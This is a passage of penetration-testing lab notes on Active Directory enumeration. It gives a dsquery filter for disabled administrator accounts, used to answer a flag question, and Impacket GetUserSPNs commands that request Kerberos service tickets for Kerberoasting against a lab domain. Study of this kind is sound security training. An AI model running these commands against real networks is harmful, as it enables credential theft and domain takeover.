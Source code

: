                `password is   not required` or `account is locked` is set.
    
     
    
    ### **UAC Values**
    
    ![Untitled](ACTIVE%20DIRECTORY%20Enum%20&%20Attacks%204af4b148af5740d1a6a92a3c741df505/Untitled%202.png)
    
    QUESTION
    
    Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer.
    
    - `dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2)(|(memberOf=CN=Administrators,CN=Builtin,DC=INLANEFREIGHT,DC=LOCAL)(memberOf=CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL)(memberOf=CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL)))" -attr sAMAccountName -limit 0`
        
        
        Gives the list of users having administrative privileges and disabled account
        
    - `dsquery * -filter "(&(objectCategory=person)(objectClass=user)(sAMAccountName=username))" -attr description`
        
        
        This will show the content of description of the given user.
        

# Cooking With Fire (kerberoasting)

# Kerberoasting - From Linux

This attack targets `Service Principal Names (SPN)` accounts.

SPN are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

Any domain user can request a Kerberos ticket for any service account in the same domain. 

**Depending on your position in a network, this attack can be performed in multiple ways:**

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

- `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend` → list spn accounts
- `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request` → Requesting all TGS tickets
- `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev` → Requesting a single TGS ticket.

we can use `-outputfil filename` flag to save the TGS ticket in a file.
